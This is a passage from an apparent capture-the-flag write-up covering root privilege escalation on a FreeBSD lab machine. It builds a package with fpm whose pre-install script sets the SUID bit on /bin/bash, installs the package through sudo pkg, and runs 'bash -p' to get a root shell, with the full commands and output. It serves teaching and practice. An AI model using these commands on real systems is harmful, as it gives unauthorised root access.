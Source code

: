 First we have to create the package with fpm using the following steps.

```
$ TF=$(mktemp -d)
$ echo 'chmod +s /bin/bash' > $TF/x.sh
$ fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
DEPRECATION NOTICE: XZ::StreamWriter#close will automatically close the wrapped IO in the future. Use #finish to prevent that.
/var/lib/gems/2.7.0/gems/ruby-xz-0.2.3/lib/xz/stream_writer.rb:185:in `initialize'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:85:in `new'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:85:in `block in output'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:84:in `open'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:84:in `output'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/command.rb:487:in `execute'
        /var/lib/gems/2.7.0/gems/clamp-1.0.1/lib/clamp/command.rb:68:in `run'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/command.rb:574:in `run'
        /var/lib/gems/2.7.0/gems/clamp-1.0.1/lib/clamp/command.rb:133:in `run'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/bin/fpm:7:in `<top (required)>'
        /usr/local/bin/fpm:23:in `load'
        /usr/local/bin/fpm:23:in `<main>'
Created package {:path=>"x-1.0.txz"}
```

Now we can transfer the created package over with curl, install it with the `--no-repo-update` flag, drop into a root shell and grab the flag.

```
jamie@Schooled:~ $ sudo pkg install -y --no-repo-update ./x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
Extracting x-1.0: 100%
jamie@Schooled:~ $ bash -p
[jamie@Schooled ~]# id
uid=1001(jamie) gid=1001(jamie) euid=0(root) egid=0(wheel) groups=0(wheel)
[jamie@Schooled ~]# wc -c /root/root.txt
      33 /root/root.txt
```


